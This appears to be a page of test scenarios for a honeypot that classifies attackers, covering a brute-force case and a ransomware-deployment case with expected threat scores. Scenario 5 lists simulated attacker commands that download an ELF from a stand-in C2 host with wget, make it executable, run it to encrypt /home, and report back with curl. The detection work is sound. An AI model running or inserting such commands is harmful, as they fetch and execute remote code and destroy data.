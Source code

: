 ### **Scenario 4: Brute-Force Attack** 💥
**IP:** `198.51.100.75`  
**Expected Classification:** **Brute-Force**

**Characteristics:**
- 0 successful logins
- **25 failed logins** (root: 10, admin: 5, user: 5, test: 5)
- 0 invalid users
- 0 suspicious commands

**Honeypot Activity:**
- Session: `brute_session_1`
- Commands: `id`, `ls -la /root`
- Duration: 12.3 seconds
- Behavior: Password guessing attack

**Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Brute-Force** (failed_logins > 20)
- Threat Score: High
- Attack Pattern: High-intensity password attack

---

### **Scenario 5: Extreme Brute-Force + Payload Execution** 🚨
**IP:** `185.220.101.33`  
**Expected Classification:** **Payload-Execution** (highest priority)

**Characteristics:**
- 0 successful logins
- **50 failed logins** (root: 20, admin: 10, user: 10, test: 10, support: 5, guest: 5)
- 0 invalid users
- **4 suspicious commands** (wget, chmod, execute ransomware, curl)

**Honeypot Activity:**
- Session: `payload_session_1`
- Commands:
  - `wget http://malicious-c2.com/ransomware.elf -O /tmp/r.elf` ⚠️
  - `chmod +x /tmp/r.elf` ⚠️
  - `/tmp/r.elf --encrypt /home` ⚠️ **RANSOMWARE EXECUTION**
  - `curl http://malicious-c2.com/report?status=encrypted` ⚠️
- Outgoing connections: 2 (to C2 server on port 4444)
- Duration: 35.7 seconds
- Behavior: **Active ransomware deployment**

**Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Payload-Execution** (suspicious_commands > 0, highest priority)
- Threat Score: **CRITICAL** (Maximum)
- Attack Pattern: Ransomware deployment with C2 communication

---
